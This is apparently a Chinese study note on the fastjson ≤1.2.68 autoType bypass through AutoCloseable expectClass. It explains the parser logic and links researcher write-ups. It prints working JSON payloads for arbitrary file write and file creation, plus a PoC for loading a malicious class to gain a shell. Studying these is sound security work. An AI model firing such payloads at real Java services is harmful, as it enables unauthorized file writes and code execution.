





原本以为1.2.48之后的fastjson漏洞都是基于一些黑名单绕过,也没怎么往后看了,结果在L3ctf的时候遇到了一个1.2.68的,于是下来准备学习一下

最开始是浅蓝师傅提出的,https://b1ue.cn/archives.html,通过expectClass来实现一个绕过`autotype`,并提供了一些挖掘思路,然后网上就有了各种漏洞挖掘,本身的漏洞逻辑因为自己太菜了,也就不说了,直接放大师傅们的文章


这里讲了一下大概的逻辑:https://p2hm1n.com/2021/03/29/fastjson-%E2%89%A4-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

浅蓝大师傅:

https://b1ue.cn/archives/382.html

https://b1ue.cn/archives/364.html

还有使用Throwable的,不过危害不大

https://b1ue.cn/archives/348.html


在`JSONParser`类中,当遇到`@typy`时,首先会进行一次`checkAutoType`,因为我们的`java.lang.AutoCloseable`默认是在mappings中的,这里会返回我们的AutoCloseable


然后下面会通过我们返回的class来获取对应的解析器,并传入deserialze方法



之前返回的class为expectClass



然后这里有个关键的地方

如果开启了safeMode设置,直接抛出异常。默认情况是不开的(后面的版本会默认开启,这里我们可以开启来完成一个防护),然后会设置我们的expectClassFlag,然后就是 1.2.24 后续补丁对`L`、`;`、`[` 等字符的检查，然后有相应的 expectClass 的判断，从mapping找class,之后就是常规的黑白名单的校验

这里设置expectClassFlag的时候会有一个黑名单检查,过滤了大部分常用接口,但是并没有过滤我们的AutoCloseable



这里加载我们的class,这里cacheClass=true没有加入缓存



然后下面返回该class




然后还有一些其他点,也是没有注意的

fastjson 在判断期望类之前将继承自 ClassLoader、DataSource、RowSet 的类直接抛出异常。

```
if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz) || RowSet.class.isAssignableFrom(clazz)) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

而常用的 JNDI RCE 类基本上都继承自 DataSource 和 RowSet，所以能找到的 JNDI gadget 基本都无法在这个漏洞中使用。


浅蓝师傅只是提供了一种思路,然后具体的利用有:

https://rmb122.com/2020/06/12/fastjson-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-gadgets-%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/

JDK11,不依赖三方库

```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':
            {
                'array':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
                'limit':22
            }
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```

网上有说JDK8/10的,但是并没有试验成功（据说jdk_1.8.0 172,201,221可以）

```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw=='
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```


## 任意写文件到getshell

通过写文件到ExtClassLoader加载路径,然后通过双亲委派机制来加在我们的类,这种方法在对于springboot项目比较好用,因为springboot很多是打包成jar包,而且springboot多以 RESTful API 接口形式向外提供服务，很少会动态解析 jsp 和其他外部模版文件

https://threedr3am.github.io/2021/04/13/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84Fastjson%20RCE/

Poc:

```
{
    "@type":"java.lang.AutoCloseable",
    "@type":"EvilAutoCloseable"
}
```

但是在jdk11以及之后无法使用,因为classloader的加载逻辑发生了变化


创建任意文件,还是只有jdk11可以,没啥用感觉,毕竟不能决定文件内容,记录一下吧还是

```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'java.io.FileOutputStream',
    'file':'/tmp/nonexist',
    'append':false
}
```


然后就是长亭爆出来的,可以根据commons-io来写入文件的


https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247486627&idx=1&sn=b768bebbd40c7d5b39071c711d9a19aa

